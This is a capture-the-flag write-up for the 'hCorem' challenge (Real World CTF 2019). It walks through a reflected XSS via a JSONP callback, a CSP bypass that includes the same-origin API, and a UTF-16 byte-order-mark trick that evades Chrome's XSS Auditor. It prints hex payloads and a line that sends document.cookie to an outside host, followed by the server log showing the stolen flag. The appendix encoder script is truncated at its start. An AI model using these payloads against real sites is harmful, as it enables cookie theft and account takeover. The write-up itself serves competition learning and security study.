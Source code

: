 # hCorem - Real World CTF 2019 Quals

## Introduction

hCorem is a web task. The goal is to exploit a vulnerable script to inject an  
XSS and retrieve the cookie of an up-to-date browser (Chrome v77.0.3865.75)

An archive containing the files required to build a Docker container of the
task  
is provided. It contains the following files:

```  
.  
├── docker-compose.yaml  
├── dockerfile-php  
├── hcorem.conf  
├── html  
│   ├── api.php  
│   ├── hcorem.js  
│   └── index.html  
└── nginx.conf  
```

## Source code analysis

The source code contains 3 files. The code is straightforward, and it is  
relatively easy to find the vulnerability:

```php  
<?php
function response(array $data = [], bool $success = true, string $message = ""): void
{
    $callback = $_REQUEST['callback'] ?? null;
    $_data = ['success' => $success, 'message' => $message, 'data' => $data];
    if ($callback) {
        echo sprintf("%s(%s)", $callback, json_encode($_data));
    } else {
        echo json_encode($_data);
    }
}

switch ($_SERVER['PATH_INFO']) {
    case '/qwq':
        response([
            'title' => 'uwu',
        ]);
        break;
    default:
        header(sprintf("%s 404 Not Found", $_SERVER['SERVER_PROTOCOL']));
        die('api not found.');
}
```

Accessing the page `/api.php/qwq?callback=foobar` will print `foobar({...})`,  
resulting in a XSS vulnerability.

## Security protections

The vulnerability identified is the most basic case of a reflected XSS.
However,  
the web server is configured to send the following security headers:

- `X-XSS-Protection`  
- `Content-Security-Policy`  
- `X-Frame-Options`  
- `X-Content-Type-Options`  
- `Referrer-Policy`

The two first headers prevent the XSS from being exploited.

### Content-Security-Policy

The Content-Security-Policy (CSP) header is set to:  
`default-src 'self'; object-src 'none'; base-uri 'none';`

This means that resources can only be loaded from the same domain (`self`),  
except for objects that cannot be loaded at all.

The bypass for CSP is to include the API again. The following payload will
show  
an alert box on Firefox (where the second protection is not present):  
```html  
<script src="/api.php/qwq?callback=alert(1)//"></script>  
```

### X-XSS-Protection

The X-XSS-Protection header is set to: `1; mode=block`

This informs Chrome to enable XSS Auditor, in blocking mode.

XSS Auditor is a feature that prevents reflected XSS attacks: if `<script>...`  
is present both in the GET/POST variables and in the body, the browser will  
identify the request as exploiting a reflected XSS and will block the page.

One of the ideas we had to bypass XSS Auditor was to trick the browser by  
specifying a different encoding. This idea is backed by the name of the task  
(`hCorem` which is `Chrome` spelled in middle endian)

It is possible to change the encoding of a page to UTF-8, UTF-16BE or UTF16-LE  
by putting a Byte Order Mark (BOM) before the document:  
- 0xEF 0xBB 0xBF for UTF-8  
- 0xFE 0xFF for UTF-16BE  
- 0xFF 0xFE for UTF-16LE

([Source: Encoding, Living Standard §6. Hooks for
standards](https://encoding.spec.whatwg.org/#specification-hooks))

The following payload (not URL-encoded for readability) bypasses XSS auditor
and  
triggers an alert:  
```  
00000000: ff fe 31 00 3c 00 73 00 63 00 72 00 69 00 70 00  ..1.<.s.c.r.i.p.  
00000010: 74 00 3e 00 61 00 6c 00 65 00 72 00 74 00 28 00  t.>.a.l.e.r.t.(.  
00000020: 31 00 29 00 3c 00 2f 00 73 00 63 00 72 00 69 00  1.).<./.s.c.r.i.  
00000030: 70 00 74 00 3e 00                                p.t.>.  
```

### Combining both

By combining the bypasses found in the two previous sections, it is possible
to  
execute JavaScript code on the challenge's website:  
```  
00000000: ff fe 31 00 3c 00 73 00 63 00 72 00 69 00 70 00  ..1.<.s.c.r.i.p.  
00000010: 74 00 20 00 73 00 72 00 63 00 3d 00 27 00 2f 00  t. .s.r.c.=.'./.  
00000020: 61 00 70 00 69 00 2e 00 70 00 68 00 70 00 2f 00  a.p.i...p.h.p./.  
00000030: 71 00 77 00 71 00 3f 00 63 00 61 00 6c 00 6c 00  q.w.q.?.c.a.l.l.  
00000040: 62 00 61 00 63 00 6b 00 3d 00 61 00 6c 00 65 00  b.a.c.k.=.a.l.e.  
00000050: 72 00 74 00 25 00 32 00 38 00 31 00 25 00 32 00  r.t.%.2.8.1.%.2.  
00000060: 39 00 25 00 32 00 46 00 25 00 32 00 46 00 27 00  9.%.2.F.%.2.F.'.  
00000070: 3e 00 3c 00 2f 00 73 00 63 00 72 00 69 00 70 00  >.<./.s.c.r.i.p.  
00000080: 74 00 3e 00                                      t.>.  
```

## Retrieving the cookies

The goal of this task is to retrieve the cookie of an headless browser.

The easiest way to retrieve them is to redirect the browser with  
`document.location.href`. Unlike AJAX calls, this redirection is not subject
to  
CSP.

The payload used to steal cookies is the following:  
```js  
document.location.href = "https://xer.forgotten-legends.org/" +
document.cookie//  
```

While being very simple, it is very effective. As soon as the bot executes the  
script, it sends a request to a server where the cookie can be found in the  
logs:  
```  
52.8.91.113 - - [16/Sep/2019:01:04:08 +0200] "GET
/flag=rwctf%7BJAME_TIME_FOR_THE_FINAL._.?} HTTP/2.0" 404 170 "-" "Mozilla/5.0
(Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
HeadlessChrome/77.0.3865.75 Safari/537.36"  
```

**Flag**: `rwctf{JAME_TIME_FOR_THE_FINAL._.?}`

## Appendices  
### encode.php  
The following script has been used to generate an URL-encoded payload:  
```php  
</script>", rawurlencode($script));

$buffer = "\xFF\xFE1";

for($i = 0; $i < strlen($payload); $i++)  
	$buffer .= "\x00" . $payload[$i];

echo rawurlencode($buffer . "\x00");  
```  

Original writeup (https://xer.forgotten-
legends.org/writeup/2019/rwctf/hCorem.md).